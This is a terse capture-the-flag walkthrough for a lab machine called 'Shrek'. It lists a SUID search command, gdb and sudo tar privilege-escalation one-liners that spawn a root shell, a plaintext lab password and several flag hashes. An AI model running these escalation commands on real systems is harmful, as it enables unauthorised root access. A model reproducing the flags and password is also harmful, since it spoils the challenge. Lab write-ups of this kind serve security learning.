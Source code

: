 # Shrek

```bash

export IP=10.10.139.21

```

* flag.txt in **/home/shrek**:

1. flag.txt:

```
0069ba233da89efe6f48e7d214034130
```

* Look for SUID binaries:

```bash
find / -type f -perm -4000 2>/dev/null
```

* PrivEsc

```bash
/usr/bin/gdb -nx -ex 'python import os; os.execl("/bin/bash", "bash", "-p")' -ex quit
```

* flag in **/root**:

1. root.txt

```
8cc6ece048e6c42251c411814ff5a22d
```

* flag in **/home/donkey**:

1. flag.txt

```
974acecd51cc45c843062fdac6235e97
```
* flag in **/home/puss**:

1. flag.txt

```
6f960e8f2ea8e3de92f192fae492ec59
```

* user *donkey* password: 

```
J5rURvCa8DyTg3vR
```

* using *donkey* and run *sudo -l*:

```bash
/usr/bin/tar
```

* PrivEsc using **sudo**:

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

* flag in **/srv/web**:

1. flag.txt

```
af847d9403e2106a3cb2fd69f33b2d5e
```

/var/lib/docker/overlay2/8039e912cd29e964102163c37a1f05795ea99e7da6c1a800dd9749417d88c680/diff/root/flag.txt

456ca96a9ba8a9f527089ddde0efc92d